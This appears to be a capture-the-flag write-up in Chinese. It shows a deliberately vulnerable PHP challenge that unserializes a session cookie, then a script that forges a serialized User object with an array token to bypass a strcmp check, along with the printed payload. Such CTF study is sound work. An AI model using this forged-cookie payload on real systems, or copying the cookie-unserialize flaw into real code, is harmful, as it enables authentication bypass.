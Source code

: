 ![](https://i.imgur.com/avDk0mx.png)

```php
class User {
    public $name;
    private $token;

    function __construct($name) {
        $this->name = $name;
        $this->token = md5($_SERVER['REMOTE_ADDR'] . rand());
    }

    function canReadFlag() {
        return strcmp($flag, $this->token) == 0;
    }
}

if (isset($_GET['logout'])) {
    header('Location: /');
    setcookie(SESSION, NULL, 0);
    exit;
}


$user = NULL;

if ($name = $_POST['name']) {
    $user = new User($name);
    header('Location: /');
    setcookie(SESSION, base64_encode(serialize($user)), time() + 600);
    exit;
} else if ($data = @$_COOKIE[SESSION]) {
    $user = unserialize(base64_decode($data));
}

```

可以看到透過strcmp比較，所以套用strcmp放陣列會爆炸的漏洞

自己寫一個相同的格式，token改成陣列再serialize
```php
<?php

class User{
    public $name;
    public $token;
}
$test = new User();
$test->name = "123456";
$test->token = array("8","7","8","7");

echo serialize($test);
//O:4:"User":2:{s:4:"name";s:6:"123456";s:5:"token";a:4:{i:0;s:1:"8";i:1;s:1:"7";i:2;s:1:"8";i:3;s:1:"7";}}
```
